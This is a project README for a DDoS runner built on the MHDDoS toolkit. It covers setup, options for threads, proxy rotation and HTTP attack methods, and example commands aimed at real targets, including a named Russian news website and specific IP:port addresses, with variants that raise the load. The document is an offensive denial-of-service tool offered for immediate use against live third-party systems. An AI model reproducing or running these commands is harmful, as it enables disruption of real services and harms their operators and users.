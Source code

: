 ## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py [-h] 
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     target [target ...]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t 100                 Number of threads per CPU core (default is 100)
      -p 300                 How often to update the proxies (default is 300)
      --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 3)

      --rpc 100              How many requests to send on a single proxy connection (default is 100)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             Default is GET, STRESS, BOT, DOWNLOADER.
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477

Target specification

- HTTP(S) by URL  - `https://tvzvezda.ru` or `http://tvzvezda.ru` 
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT  - `tcp://194.54.14.131:4477`

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 10 minutes)

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

# TODO

- [ ] UDP support - need MHDDoS to support SOCKS5 proxies for UDP
- [ ] Docker image
